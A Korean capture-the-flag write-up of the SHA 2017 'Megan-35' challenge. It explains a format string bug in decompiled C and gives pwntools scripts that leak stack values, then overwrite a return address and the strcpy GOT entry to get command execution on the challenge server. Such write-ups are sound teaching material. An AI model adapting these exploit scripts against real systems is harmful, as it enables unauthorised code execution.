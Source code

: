 # [2017_SHA] \[PWN] Megan-35

### 환경

```
[*] '/root/labs/ctf/2017_sha/Megan-35/megan-35'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

\+ 서버에는 ASLR이 걸려있지 않습니다.(아래에서 설명)



### 취약점 - Format String Bug

```c
int __cdecl main(int a1)
{
  const char *v1; // eax@1
  int v2; // edx@1
  char s; // [sp+0h] [bp-21Ch]@1
  char dest; // [sp+100h] [bp-11Ch]@1
  int v6; // [sp+200h] [bp-1Ch]@1
  int *v7; // [sp+214h] [bp-8h]@1

  v7 = &a1;
  v6 = *MK_FP(__GS__, 20);
  puts("Decrypt your text with the MEGAN-35 encryption.");
  fflush(stdout);
  fgets(&s, 255, stdin);
  v1 = (const char *)sub_804866B(&s, strlen(&s));
  strcpy(&dest, v1);
  printf(&dest);
  v2 = *MK_FP(__GS__, 20) ^ v6;
  return 0;
}
```

printf 하는 부분에서 FSB 취약점이 발생하는 것을 알 수 있습니다.

이 프로그램은 MEGAN-35라는 인코딩 방식으로 인코드된 문자열을 디코드하여 출력해주는 프로그램입니다. 취약한 포맷 스트링을 미리 MEGAN-35로 인코드해놓고 프로그램에 넣으면 FSB 취약점을 이용할 수 있습니다.(저는 검색도 안해보고 MEGAN-35가 커스텀 암호화 방식인줄 알았습니다…)



### 시나리오

시나리오를 짜기 전에 우선 서버의 환경을 알아와야합니다.

```python
from pwn import *
import subprocess, sys, os, base64

megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"

class B64weird_encodings:
 
    def __init__(self, translation):
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, translation))
        self.revlsrch = dict(zip(translation, b))
 
    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r
 
    def decode(self, code):
        global revlsrch
        b64 = "".join([self.revlsrch[x] for x in code])
        r = base64.b64decode(b64)
        return r    
 
def encode(variant, pt):
    encoder = B64weird_encodings(variant)
    return encoder.encode(pt)
 
def decode(variant, code):
    try:
        encoder = B64weird_encodings(variant)
        return encoder.decode(code)
    except KeyError:
        return "Not valid"
    except TypeError:
        return "Padding iccorrect"

payload = "AAAA%145$x"
payload = encode(megan35, payload)
print payload
p = connect("megan35.stillhackinganyway.nl",3535)
p.recv()
p.sendline(payload)
p.interactive()
```

위 코드를 통해 오프셋 145인 메모리 주소를 반복하여 leak해봅시다.



```
root@inj3ct:~/labs/ctf/2017_sha/Megan-35# python leak.py 
beKGbcerSIe/o355
[+] Opening connection to megan35.stillhackinganyway.nl on port 3535: Done
[*] Switching to interactive mode
AAAAf7fc9000[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to megan35.stillhackinganyway.nl port 3535
root@inj3ct:~/labs/ctf/2017_sha/Megan-35# python leak.py 
beKGbcerSIe/o355
[+] Opening connection to megan35.stillhackinganyway.nl on port 3535: Done
[*] Switching to interactive mode
AAAAf7fc9000[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to megan35.stillhackinganyway.nl port 3535
root@inj3ct:~/labs/ctf/2017_sha/Megan-35# python leak.py 
beKGbcerSIe/o355
[+] Opening connection to megan35.stillhackinganyway.nl on port 3535: Done
[*] Switching to interactive mode
AAAAf7fc9000[*] Got EOF while reading in interactive
```

그 주소가 일정함을 알 수 있는데, 이를 통해 우리는 서버에 ASLR이 걸려있지 않다는걸 유추할 수 있습니다.

그럼 시나리오를 작성해봅시다.



#### 시나리오1

1. main 함수의 return address 주소가 적힌 스택 메모리의 주솟값을 알아낸다.
2. 메모리를 적절하게 읽어와서 libc base를 계산한다.
3. FSB를 이용해 main 함수의 ret를 main으로 overwrite한다.
4. strcpy를 system 함수의 주소로 overwrite한다.
5. 실행할 명령어를 Megan-35로 인코딩한 후, 입력한다.

#### 시나리오2

1. main 함수의 return address 주소가 적힌 스택 메모리의 주솟값을 알아낸다.
2. 메모리를 적절하게 읽어와서 libc base를 계산한다.
3. FSB를 이용해 main 함수의 ret를 main으로 overwrite한다.
4. strcpy를 one-shot gadget의 주소로 overwrite한다.

시나리오1이 로컬에선 정상적으로 작동했습니다. 하지만 어느 부분이 잘못된 것인지 리모트에선 제대로 작동하지 않았습니다.(libc base 잘못 찾아서 삽질하고, 리모트에서 제대로 되지 않아서 또 삽질했습니다ㅠㅠ 그러다가 one-shot 가젯 썼더니 작동하길래 허무했습니다…)

시나리오2를 이용하여 익스플로잇에 성공했습니다. (시나리오1의 경우, ex_local.py를 참고해주세요.)



### Exploit

```python
from pwn import *
import subprocess, sys, os, base64

megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"

class B64weird_encodings:
 
    def __init__(self, translation):
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, translation))
        self.revlsrch = dict(zip(translation, b))
 
    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r
 
    def decode(self, code):
        global revlsrch
        b64 = "".join([self.revlsrch[x] for x in code])
        r = base64.b64decode(b64)
        return r    
 
def encode(variant, pt):
    encoder = B64weird_encodings(variant)
    return encoder.encode(pt)
 
def decode(variant, code):
    try:
        encoder = B64weird_encodings(variant)
        return encoder.decode(code)
    except KeyError:
        return "Not valid"
    except TypeError:
        return "Padding iccorrect"
 
e = ELF('libc.so.6')

libcbase = 0xf7e19000
system = libcbase + 0x5f065
strcpy_got = 0x0804A01C
main_ret = 0xffffd67c+0x750
main = 0x80484e0

payload = fmtstr_payload(71,{main_ret:main,strcpy_got:system},write_size='byte')+"bbbb"
payload.encode("hex")
payload = encode(megan35,payload)
print payload
p = connect("megan35.stillhackinganyway.nl",3535)
p.recv()
p.sendline(payload)

p.recvuntil("bbbb")
print p.recv()

cmd = raw_input("> ")[:-1]
cmd = encode(megan35,cmd)
p.sendline(cmd)
p.interactive()
```

